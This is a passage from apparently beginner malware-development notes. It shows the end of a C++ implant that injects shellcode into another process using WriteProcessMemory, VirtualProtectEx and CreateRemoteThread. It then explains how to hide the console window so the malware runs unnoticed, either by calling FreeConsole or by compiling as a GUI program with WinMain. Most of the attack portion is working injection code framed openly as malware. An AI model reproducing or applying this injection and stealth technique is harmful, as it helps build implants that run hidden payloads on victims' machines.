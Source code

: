 ```c++

	// We copy the buffer to the buffer as it is writable with WriteProcessMemory
	BOOL wProcessMemory = WriteProcessMemory(hOpenProcess, lpBufferAddress, shellcode, payload_len, &lpNumberOfBytesWritten);
	if (!wProcessMemory) {
		printf("Could not write into the injected memory. Error code: %ld", GetLastError());
	}

	printf("Shellcode written into memory.\n");

	// We now change the permissions of the memory address to execute, with VirtualProtectEx
	BOOL vProtect = VirtualProtectEx(hOpenProcess, lpBufferAddress, payload_len, PAGE_EXECUTE_READ, &lpflOldProtect);
	if (!vProtect) {
		printf("Was not possible to change the permissions of the buffer. Error code: %ld", GetLastError());
		return EXIT_FAILURE;
	}

	printf("Changed the memory space so it is executable.\nExecuting shellcode...\n");

	hThread = CreateRemoteThread(hOpenProcess, NULL, 0, (LPTHREAD_START_ROUTINE) lpBufferAddress, NULL, 0, NULL);

	if (hThread != NULL) {
		WaitForSingleObject(hThread, 500);
		printf("Thread started. Bye...");
		CloseHandle(hOpenProcess);
		CloseHandle(hThread);
	}

	return EXIT_SUCCESS;
}
```

# Making the program invisible
We have our implant that works, but if we click on the executable instead of launching it from console, we can see a window regarding our process popping up.
This black window popping up in an user's screen is **something we don't want in any malware.**

There are two methods to get rid of it:
1. Call FreeConsole() at the start of the program. The problem is that **there is a still a fraction of time in which the window appears (until it does not reach the FreeConsole function, the window is still there).**
2. Better trick: Call int WINAPI WinMain instead of int main() and change the compilation options to **tell the compiler to compile the program as a GUI program**. This way, the compiler will search for the WinMain function as we declared that the program must be compiled as GUI program.

This way, we change the compilation options to tell that the program is a WINDOWS program (by default, it is a console program)
![[attachments/sektor_beginner-83.png]]
And then change the main() function for WinMain:
![[attachments/sektor_beginner-84.png]]
